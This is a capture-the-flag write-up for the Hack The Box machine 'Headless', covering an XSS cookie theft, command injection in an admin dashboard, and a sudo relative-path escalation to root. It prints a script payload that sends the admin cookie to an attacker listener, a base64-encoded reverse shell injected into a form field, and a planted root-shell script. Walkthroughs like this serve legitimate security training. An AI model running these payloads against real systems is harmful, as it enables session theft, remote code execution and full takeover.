


# Headless


Headless is an easy Linux Hack The Box machine that starts with an XSS flaw in a support form, moves into command injection through an admin dashboard, and ends with a simple but effective sudo abuse path to root.

## Reconnaissance

A scan of the target showed only SSH on port 22 and a Python web application on port 5000.

```text
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     ...
```

The server was using Werkzeug and Python 3.11.2, and it immediately set an `is_admin` cookie without the `HttpOnly` flag. That made cookie theft through JavaScript worth exploring.


## Web Enumeration

The main page showed a countdown timer and a button to submit questions. Clicking the button redirected to `/support`, which contained a form for personal details and a message field.



I tested the form with a simple script payload and used Burp Suite to resend the request. The application responded with **Hacking Attempt Detected**, which suggested the input was being inspected. More importantly, the response indicated that the request would be forwarded to an administrator.

That meant an attacker-controlled value in the message or request headers could potentially be viewed by an admin.

## Cookie Theft

I sent a request with a JavaScript payload designed to exfiltrate the admin cookie to my listener.

```html
<script>document.location='http://10.10.10.10'+document.cookie</script>
```

The application blocked that attempt, so I tried placing the payload in a custom HTTP header instead of the message body. That worked, and shortly after submitting the request, I received a callback from the administrator containing their cookie.

```text
10.129.215.22 - - [15/Jul/2024 17:22:30] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

I replaced my own cookie with the stolen one and moved on to find the admin portal.

## Hidden Paths

I tested a few common routes like `/admin` and `/login`, but nothing useful appeared. A directory brute-force scan exposed two additional endpoints:

```bash
ffuf -s \
     -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt \
     -u 'http://10.129.215.22:5000/FUZZ'
```

```text
support
dashboard
```

The `/dashboard` route displayed an admin panel where a date could be selected and a report could be generated.

Without a valid admin cookie, the page returned `403`. With the stolen cookie, the dashboard became accessible.



## Command Injection

Submitting the default date produced a request like this:

```http
POST /dashboard HTTP/1.1
Host: 10.129.215.22:5000
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
...
date=2023-09-15
```

I tested command injection by appending `;id` to the date parameter. The response changed and included the output of the `id` command, confirming the vulnerability.

That was enough to upgrade from proof of concept to a reverse shell.

## Foothold

To keep the payload simple, I used a base64-encoded reverse shell and executed it through the injected date parameter.

```bash
date=2023-09-15;echo+'c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMzEzMzcgMD4mMQ%3d%3d'|base64+-d|bash
```

The callback arrived on my listener, and I landed a shell as `dvir`.

```text
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

The user flag was present in `dvir`’s home directory.

## Privilege Escalation

I checked sudo privileges and found that `dvir` could run `/usr/bin/syscheck` as root without a password.

```text
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

The script itself was a Bash file that performed a few system checks and then tried to start `initdb.sh` if no such process was running.

```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```

The important issue was that `initdb.sh` was executed using a relative path. Since I controlled the working directory, I could place my own `initdb.sh` in a writable directory and have the root-run script execute it.

I created a malicious `initdb.sh` in `/dev/shm` that simply spawned a shell.

```bash
cd /dev/shm
echo bash > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
```

Running the script as root executed my file and dropped me into a root shell.

```text
uid=0(root) gid=0(root) groups=0(root)
```

## Attack Path

- Enumerate SSH and the Python web service.
- Identify the support form and test it for XSS.
- Steal the admin cookie through a browser-executed payload.
- Discover the hidden `/dashboard` route.
- Confirm command injection through the date parameter.
- Launch a reverse shell as `dvir`.
- Abuse sudo access to run `syscheck` as root.
